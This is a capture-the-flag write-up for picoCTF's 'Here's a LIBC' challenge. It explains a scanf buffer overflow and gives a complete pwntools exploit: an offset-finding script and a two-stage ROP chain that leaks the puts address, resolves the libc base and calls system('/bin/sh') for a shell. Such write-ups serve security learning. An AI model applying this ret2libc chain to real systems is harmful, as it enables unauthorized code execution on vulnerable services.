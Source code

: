 # Writeup - Here's a LIBC


## Vulnerability
First, open up the vuln binary with Ghidra to see the decomplied C code. If you look at the `main` function there is a `while`-loop that calls a function `do_stuff`. Inside this function there is a variable of size 112 but it's contents are read through `scanf`. This is a buffer-overflow. The idea now is to write a more than 112 bytes as input and then some code so that we can run that code. That code will essentially pop a shell with `/bin/sh`.


## Exploit

We first try to find how many characters to fill before the malicious code.

Script to find offset:

```python
from pwn import *

io = process("./vuln")
print(io.recvregex(b'!')) # read until we get the prompt
io.sendline(cyclic(500))
io.wait()
core = io.corefile
rsp = core.rsp
info("rsp = %#x", rsp)
pattern = core.read(rsp, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
```

Full exploit:

```python
import sys

from pwn import *

libcelf = {
  "local": "/lib/x86_64-linux-gnu/libc.so.6",
  "remote": "./libc.so.6"
}

mode = sys.argv[1]
print(f"mode: {mode}")
if mode != "local" and mode != "remote": print("exitting.."); sys.exit()

vuln_elf = ELF("./vuln")
r = vuln_elf.process() if mode == "local" else remote("mercury.picoctf.net", sys.argv[2])

libc = ELF(libcelf[mode])

pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

puts_plt = vuln_elf.plt['puts'] #grab plt address of puts function
main_plt = vuln_elf.symbols['main'] #grab address of main
puts_got = vuln_elf.got['puts']

junk = b"A" * 136

log.info(f"main starts @ {hex(main_plt)}")
log.info(f"puts plt @ {hex(puts_plt)}")
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"puts got @ {hex(puts_got)}")

rop1 = b""
rop1 += junk
rop1 += p64(pop_rdi) #fill rip with pop rdi; ret address
rop1 += p64(puts_got) #put address of puts global offset table in the rdi register
rop1 += p64(puts_plt) #call to puts in the procedural link table, looks to rdi for argument (puts_got)
rop1 += p64(main_plt) #return to main of program after tricking it into leaking puts address

print(r.clean()) #clean buffer and print all received bytes
r.sendline(rop1)

print(r.recvline())

received_line = r.recvline().strip()
leak = u64(received_line.ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")

libc.address = leak - libc.symbols['puts']
log.info(f"libc base @ {hex(libc.address)}")
log.info("now we have libc base, we can find system and pwn that sh*t")

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.symbols['system']

log.info(f"/bin/sh located @ {hex(bin_sh)}")
log.info(f"system function located @ {hex(system)}")

rop2 = b""
rop2 += junk
rop2 += p64(ret)
rop2 += p64(pop_rdi) #Once again, pop rdi to place argument in
rop2 += p64(bin_sh) #put /bin/sh into rdi to be passed to system
rop2 += p64(system) #call system with /bin/sh argument from rdi

r.clean()
r.sendline(rop2)
r.interactive()
```

